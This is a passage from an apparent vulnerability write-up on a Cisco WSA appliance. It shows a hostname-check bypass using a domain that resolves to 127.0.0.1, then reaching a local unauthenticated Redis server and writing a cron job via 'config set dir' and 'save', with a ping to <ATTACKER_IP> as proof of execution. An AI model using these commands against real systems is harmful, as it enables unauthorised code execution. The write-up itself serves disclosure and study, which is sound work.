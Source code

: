 ```bash
- The first and last character of a label must be a letter or a number.
- The hostname must have at least 2 labels separated by a period.
- The last label cannot be all numbers.
: '127.0.0.1'
```

To bypass the restriction, I used a domain that points to "127.0.0.1",
for example `localtest.me` (see
[here](https://superuser.com/q/1280827)).

```bash
cisco-wsa> nslookup localtest.me

A=127.0.0.1 TTL=30m
cisco-wsa> telnet localtest.me 6379

Trying 127.0.0.1...
Connected to localtest.me.
Escape character is '^]'.
info
$3291
# Server
redis_version:5.0.5
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:c5557b57b79e4dec
redis_mode:standalone
os:FreeBSD 13.0-RELEASE-p13 amd64
```

As the listing demonstrates, it was possible to connect to the local
Redis server by resolving a domain pointing to 127.0.0.1. The "info"
command was issued, which returned the server version and Operating
System.  

## Arbitrary Command Execution

To reach code execution, I exploited the fact that Redis
by default does not enforce authentication, and allows writing
configuration files to arbitrary location on disk. I'm sorry I can't
find the original author of this exploit to give credit, and the slides
from zeronights are lost in the interwebz.

It should be noted that FreeBSD stores crontabs in a different location
than Linux. Here we need to write to `/var/cron/tabs`, with a filename
matching the local user. In Linux it would normally be
`/var/spool/cron/crontabs`. For some reason, it wasn't possible to run
this as root.

The following commands were issued to the Redis server:

```bash
config set dir "/var/cron/tabs"
+OK
config set dbfilename lowpriv
+OK
set backup1 "\n\n\n*/2 * * * * ping -c 2 <ATTACKER_IP>\n\n"
+OK
save
+OK
```
